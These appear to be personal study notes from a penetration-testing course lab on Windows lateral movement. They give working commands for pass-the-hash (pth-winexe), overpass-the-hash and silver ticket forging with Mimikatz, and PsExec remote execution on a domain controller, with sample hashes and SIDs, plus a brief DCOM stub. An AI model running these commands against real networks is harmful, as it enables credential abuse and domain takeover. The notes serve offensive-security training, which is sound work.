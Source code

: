

### Pass the Hash
> Can authenticate using NTLM hash instead of plaintext. 

Not work for Kerberos but can work for NTLM auth. Requires local Admin rights.
Using pth-windexe from Passing-The-Hash Toolkit.
`pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd`
Uses SMB connection, needs file and print sharing to be enabled

### Overpass the Hash
> Turn NTLM hash into kerberos ticket and avoid use of NTLM auth

Run a program as another user, then validate their creds as `sekurlsa::logonpasswords`
Can do this with a Mimikatz command: `sekurlsa::pth`
`sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe`

After powershell sessions spawns, check cached kerberos ticket with `klist`.
Can generate TGT by authenticating to network share `net use \\dc01` try `klist` again now
Now we have a TGT which we can use to obtain RCE on the domain controller: `.\PsExec.exe \\dc01 cmd.exe`

### Pass the Ticket
Overpass uses TGT, passtheticket uses TGS. TGS can be exported and reinjected elsewhere to auth into a diff service. 
```
As with Pass the Hash, Overpass the Hash also requires access to the special admin share called Admin$, which in turn requires local administrative rights on the target machine.
If the service account is not a local administrator on any servers, we would not be able to perform lateral movement using vectors such as pass the hash or overpass the hash 
```

We can forge a ticket and pass it on to an application (IIS for example, and it will believe us since its encrypted using our hash.) This is known as the Silver Ticket. To create this ticket, we need:
SID of the domain. S-R-I-S command: `whoami /user`.
```
output of whoami
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103

The SID defining the domain is the entire string except the RID at the end ( -1103 ) 
```
Flush existing tickets: `kerberos::purge`, verify purge with: `kerberos::list`
Create ticket with: `kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt`

Now we can interact with service.

### Distributed Component Object Model
The Microsoft Component Object Model (COM) is a system for creating software components that interact with each other. DCOM = interaction between multiple computers over a network.
DCOM objects related to Microsoft Office allow lateral movement, both through the use of Outlook7 as well as PowerPoint.

Attack requires access to both TCP 135 for DCOM and TCP 445 for SMB and MSOffice.
 21.4.6
